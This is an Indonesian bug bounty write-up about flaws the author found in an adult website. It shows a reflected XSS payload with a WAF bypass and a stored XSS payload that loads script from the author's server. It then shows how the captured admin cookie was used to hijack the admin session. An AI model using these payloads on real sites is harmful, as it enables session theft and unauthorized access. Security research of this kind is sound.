 ```yaml
---
layout: post
title: Mengintip Dashboard Admin Situs Haram
categories: [Bug Bounty Write-Up]
author: Akbar Kustirama
---
```


Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup "umum" yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

<img src="https://infosec.zerobyte.id/images/screenshot-situs-haram.png" alt="Mengintip Dashboard Admin Situs Haram">

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

### Reflected XSS pada Halaman Pencarian
Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah: 

```html
asd"><ScRiPt%20>alert(1);<%2fscript>
```

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang. 

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

<img src="https://infosec.zerobyte.id/images/screenshot-reflected-xss-pencarian.jpg" alt="Mengintip Dashboard Admin Situs Haram">

### Stored XSS pada Profile
Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal "penting yakin", saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_. 

<img src="https://infosec.zerobyte.id/images/screenshot-html-injection-profile.jpg">

Saya melanjutkan dengan memasukkan payload:

```html
"><script src=//x.serversaya.com></script><x="
```

- `">` = digunakan untuk keluar dari input form (```<input>```)
- `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya (<a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a>)
- `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada " type="text" dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari <a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a> saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

<a href="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" target="_blank"><img src="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram"></a>

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke `https://cp.situslain.com/user/edit/{userid}`.

Ketika mengakses `https://cp.situslain.com/user/edit/{userid}`, saya dialihkan ke halaman login `https://cp.situslain.com/user/login`. 

<img src="https://infosec.zerobyte.id/images/screenshot-login-page-set-cookie.jpg" alt="Mengintip Dashboard Admin Situs Haram">

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

```javascript
document.cookie = 'PHPSESSID=lot4#######################';
````

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman `https://cp.situslain.com/user/edit/{userid}`.

<img src="https://infosec.zerobyte.id/images/screenshot-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram">

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel "Mengintip Dashboard Admin Situs Haram". Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.

